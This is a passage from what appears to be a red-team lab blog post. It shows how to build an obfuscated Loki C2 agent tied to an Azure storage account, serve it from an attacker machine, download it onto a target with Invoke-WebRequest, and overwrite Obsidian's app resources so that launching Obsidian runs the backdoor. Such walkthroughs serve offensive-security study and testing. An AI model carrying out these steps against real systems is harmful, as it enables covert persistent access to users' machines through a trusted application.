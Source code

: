 		![Azure SAS values](/images/blog/ep2-azure-2.png)
- On the attacker machine, clone Loki from github.
	`git clone https://github.com/boku7/Loki.git && cd Loki\`
- Install NodeJS
	`winget install nodejs`  
- Install `javascript-obfuscator`
	`npm install --save-dev javascript-obfuscator`
- Run the script `obfuscateAgent.js` to create a Loki payload with the Storage account info, that we saved earlier.

Make sure to save the Storage Account, SAS token and MetaContainer as 
these will be used for our Loki client to connect to Azure.

![Loki-Agent-Create](/images/blog/ep2-agent-create.png)

Now that we have an agent ready, let's upload it to our target and let's see what happens.-
```
Compress-Archive -Path .\app\* -DestinationPath .\app.zip
```

## Delivering the Agent 
The script we used earlier creates an `/app/` directory. We want to replace the target app's `resources/*` data with this app folder. 

For the purpose of my testing I used a tool called `updog` which allows me to host a file server and transfer files via HTTP/S. 
```
pip3 install updog && updog
```
This will launch the server in the Loki directory of our attacker machine.

![Updog](/images/blog/ep2-updog.png)

Let's head over to our target and download the Agent. 
```
cd Downloads\
mkdir Obsidian_Update-latest\
Invoke-WebRequest http://10.0.0.39:9090/app.zip -OutFile app.zip
```

![Updog](/images/blog/ep2-agent-download.png)

Now that we have our zip on the target machine, we can replace the files for Obsidian with our agent.
```
Expand-Archive -Path .\app.zip -DestinationPath 'C:\Users\Barry Allen\AppData\Local\Programs\Obsidian\resources\app\'
```

![Agent Delivered](/images/blog/ep2-agent-delivered.png)


## The Execution
Now comes the best part, launching Obsidian.exe just like a regular user would.
